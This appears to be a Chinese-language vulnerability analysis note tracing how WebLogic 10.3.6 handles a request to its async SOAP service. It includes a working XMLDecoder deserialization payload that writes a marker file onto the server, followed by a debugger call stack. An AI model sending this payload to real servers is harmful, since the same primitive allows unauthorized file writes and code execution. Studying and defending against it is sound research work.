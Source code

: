 #Weblogic请求包路径分析

## 问题描述

Weblogic 10.3.6， Post访问：

 http://172.16.100.97:7001/_async/AsyncResponseService

```XML
 <?xml version="1.0" encoding="UTF-8" ?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" 
xmlns:ads="http://www.w3.org/2005/08/addressing"
xmlns:asy="http://www.bea.com/async/AsyncResponseService">
    <soapenv:Header>
        <ads:Action>demo</ads:Action>
        <ads:RelatesTo>test</ads:RelatesTo>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.6.0" class="java.beans.XMLDecoder">
                <object class="java.io.PrintWriter">
                    <string>servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/test.txt</string>
                    <void method="println">
                        <string>xmldecoder_vul_test4445</string>
                    </void>
                    <void method="close"/>
                </object>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    
    <soapenv:Body>
    	<asy:onAsyncDelivery/>
    </soapenv:Body>
</soapenv:Envelope>
```

信息 1 Post Body

然后在processRequest处下断点，查看路径：

```
handleRequest:20, WorkAreaServerHandler (weblogic.wsee.workarea)
handleRequest:141, HandlerIterator (weblogic.wsee.handler)
dispatch:114, ServerDispatcher (weblogic.wsee.ws.dispatch.server)
invoke:80, WsSkel (weblogic.wsee.ws)
handlePost:66, SoapProcessor (weblogic.wsee.server.servlet)
process:44, SoapProcessor (weblogic.wsee.server.servlet)
run:285, BaseWSServlet$AuthorizedInvoke (weblogic.wsee.server.servlet)
service:169, BaseWSServlet (weblogic.wsee.server.servlet)
service:820, HttpServlet (javax.servlet.http)
run:227, StubSecurityHelper$ServletServiceAction (weblogic.servlet.internal)
invokeServlet:125, StubSecurityHelper (weblogic.servlet.internal)
execute:301, ServletStubImpl (weblogic.servlet.internal)
execute:184, ServletStubImpl (weblogic.servlet.internal)
wrapRun:3732, WebAppServletContext$ServletInvocationAction (weblogic.servlet.internal)
run:3696, WebAppServletContext$ServletInvocationAction (weblogic.servlet.internal)
doAs:321, AuthenticatedSubject (weblogic.security.acl.internal)
runAs:120, SecurityManager (weblogic.security.service)
securedExecute:2273, WebAppServletContext (weblogic.servlet.internal)
execute:2179, WebAppServletContext (weblogic.servlet.internal)
run:1490, ServletRequestImpl (weblogic.servlet.internal)
execute:256, ExecuteThread (weblogic.work)
run:221, ExecuteThread (weblogic.work)
```

